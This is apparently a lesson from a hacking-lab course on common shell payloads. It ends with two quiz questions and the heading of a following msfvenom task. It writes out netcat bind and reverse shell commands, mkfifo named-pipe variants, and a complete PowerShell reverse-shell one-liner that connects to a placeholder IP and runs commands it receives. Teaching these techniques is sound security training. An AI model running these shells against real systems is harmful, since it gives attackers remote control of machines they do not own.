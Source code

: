 <p>We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.<br /></p><hr /><p>A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the <code>nc.exe</code> Windows version included with Kali at <code>/usr/share/windows-resources/binaries</code>, and the version used in Kali itself: <code>netcat-traditional</code>) there is a <code>-e</code> option which allows you to execute a process on connection. For example, as a listener:</p><p><code>nc -lvnp &lt;PORT&gt; -e /bin/bash</code><br /></p><p>Connecting to the above listener with netcat would result in a bind shell on the target.</p><p>Equally, for a reverse shell, connecting back with <code>nc &lt;LOCAL-IP&gt; &lt;PORT&gt; -e /bin/bash</code> would result in a reverse shell on the target.<br /></p><p>However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:</p><p><code>mkfifo /tmp/f; nc -lvnp &lt;PORT&gt; &lt; /tmp/f | /bin/sh &gt;/tmp/f 2&gt;&amp;1; rm /tmp/f</code><br /></p><p>The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters. </p><blockquote><p><i>The command first creates a <a href="https://www.linuxjournal.com/article/2156" target="_blank">named pipe</a> at <code>/tmp/f</code>. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into <code>sh</code>, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.</i></p></blockquote><p><img style="width:1076px" src="https://i.imgur.com/se5Fyn3.png" /><br /></p><p>A very similar command can be used to send a netcat reverse shell:</p><p><code>mkfifo /tmp/f; nc &lt;LOCAL-IP&gt; &lt;PORT&gt; &lt; /tmp/f | /bin/sh &gt;/tmp/f 2&gt;&amp;1; rm /tmp/f</code><br /></p><p>This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.</p><p><img style="width:1076px" src="https://i.imgur.com/Xf0hA5p.png" /><br /></p><hr /><p>When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.<br /></p><p>This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:</p><p><code>powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<b>&lt;ip&gt;</b>',<b>&lt;port&gt;</b>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2&gt;&amp;1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '&gt; ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"</code><br /></p><p>In order to use this, we need to replace "&lt;IP&gt;" and "&lt;port&gt;" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:</p><p><img style="width:1008px" src="https://i.imgur.com/T6o7kOL.png" /></p><hr />For other common reverse shell payloads, <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" target="_blank">Payloads all the Things</a> is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.<br />

----------------------------------------

### QUESTIONS:

----------------------------------------

1. What command can be used to create a named pipe in Linux?

```
```

2. Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.

```
```

----------------------------------------

### TASK 9. msfvenom
